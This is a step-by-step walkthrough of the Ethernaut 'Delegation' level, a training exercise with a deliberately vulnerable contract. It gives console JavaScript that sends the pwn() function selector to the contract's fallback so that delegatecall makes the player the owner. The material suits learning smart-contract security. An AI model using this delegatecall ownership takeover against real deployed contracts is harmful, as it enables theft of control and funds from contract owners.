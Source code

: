 # Delegation – Level 6 Walkthrough

Welcome to the **Delegation** level of the [Ethernaut](https://ethernaut.openzeppelin.com/) wargame by OpenZeppelin, focused on exploiting `delegatecall` misuse and understanding storage collision vulnerabilities in smart contracts.

---

## Challenge Objective

You are given a contract with a fallback function that uses `delegatecall` to another contract. Your goal is to:

- Become the owner of the main contract
- Submit the instance to complete the level

---

## Prerequisites

Before you begin, ensure the following:

- **MetaMask** is installed and connected
- **Test ETH** is available (Goerli, Sepolia, etc.)
- Familiarity with using **browser DevTools** and executing JavaScript commands
- Access to the [Ethernaut Game](https://ethernaut.openzeppelin.com/)

---

## Getting Started

### 1. **Load the Level**

- Navigate to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
- Select **"Delegation"** from the list of levels
- Click **"Get new instance"**
- Approve the MetaMask transaction to deploy your personalized challenge contract

Once the contract is deployed, it will inject a global object called `contract` into your browser console.

---

## Walkthrough – Step by Step

### 🗒️ Step 1: Get the Function Selector for `pwn()`

```js
web3.utils.keccak256("pwn()").slice(0,10)
```
> This returns the function selector for `pwn()`, which is `"0xdd365b8b"`.

---

### 🛠️ Step 2: Call the Fallback Function with the Selector

```js
await web3.eth.sendTransaction({
    from: player,
    to: contract.address,
    data: "0xdd365b8b"
});
```
> This triggers the fallback in `Delegation`, which uses `delegatecall` to execute `pwn()` in the context of `Delegation`, making you the owner.

---

### 🔍 Step 3: Verify Ownership

```js
await contract.owner()
```
> This should return your wallet address, confirming you are now the owner.

---

### ✅ Step 4: Submit the Level

Click **“Submit instance”** in the UI and confirm the MetaMask transaction. Once successful, the level is marked as **completed**.

---

## 💡 What You Learn

- How `delegatecall` works in Solidity
- The risks of forwarding calldata with `delegatecall`
- How storage layout affects contract security
- Why fallback functions can be dangerous with `delegatecall`

---

## Concepts Covered

| Concept           | Description                                                                     |
| ----------------- | ------------------------------------------------------------------------------- |
| `delegatecall`    | Executes code from another contract in the context of the calling contract      |
| Fallback function | Handles calls to undefined functions; risky with delegatecall                   |
| Function selector | First 4 bytes of the Keccak-256 hash of the function signature                  |
| Storage collision | Delegatecall modifies the storage of the calling contract, not the callee       |

---

## Resources

- [Ethernaut Game](https://ethernaut.openzeppelin.com/)
- [Solidity Docs – delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries)
- [Blog: How to Hack Solidity Contracts with delegatecall](https://shubhamm.me/blog/ethernaut_challenges_delegation)

---
